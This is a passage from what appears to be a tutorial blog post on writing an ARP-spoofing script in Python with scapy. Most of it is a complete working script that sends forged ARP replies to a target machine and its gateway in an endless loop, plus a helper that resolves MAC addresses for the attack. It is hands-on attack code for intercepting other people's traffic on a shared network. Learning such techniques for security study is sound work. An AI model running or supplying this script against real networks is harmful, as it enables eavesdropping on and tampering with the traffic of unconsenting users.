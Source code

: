 We can suppress the noisy output of scapy by setting `verbose=0` on the `sendp` function. Check out Wireshark, you should see your fancy ARP script beaconing out packets:

![Our script hard at work. Note I am not getting any responses as this was done in a coffee shop, and I didn’t want to attack anyone in the shop.](./wireshark_arp2.png)

The full script is as follows:

```python{numberLines: true}
import time
from typing import List
from threading import Thread
from scapy.all import Ether, ARP, sendp


gateway_mac = "0c:8d:db:71:c0:87"
gateway_ip = "10.128.128.128"
target_mac = "0c:8d:db:71:c0:87"
target_ip = "10.105.190.249"
# Build the packets
target_packet = Ether(dst=target_mac) / ARP(
    op=2, psrc=gateway_ip, hwdst=target_mac, pdst=target_ip
)
router_packet = Ether(dst=gateway_mac) / ARP(
    op=2, psrc=target_ip, hwdst=gateway_mac, pdst=gateway_ip
)
# Loop forever and beacon packets
while True:
    sendp([target_packet, router_packet], verbose=0)
    # Sleep for 1 second between beacons
    # not really needed, but makes it less spammy
    time.sleep(1)
```

## Automatically resolving MAC addresses

Now that we have the basics in place, it’s kind of annoying to manually set MAC addresses. Considering we already have the ability to issue ARP requests, we can leverage that to resolve the MAC address for the IP addresses we want!

```python{numberLines: true}
def get_mac_from_ip(ip_address: str):
    # dst="ff:ff:ff:ff:ff:ff" broadcasts the request to the whole network
    ans = srp1(
        Ether(dst="ff:ff:ff:ff:ff:ff")
        / ARP(pdst=ip_address, hwdst="ff:ff:ff:ff:ff:ff"),
        timeout=2,
        verbose=0,
    )
    if ans:
        return ans.hwsrc
    else:
        return None
```
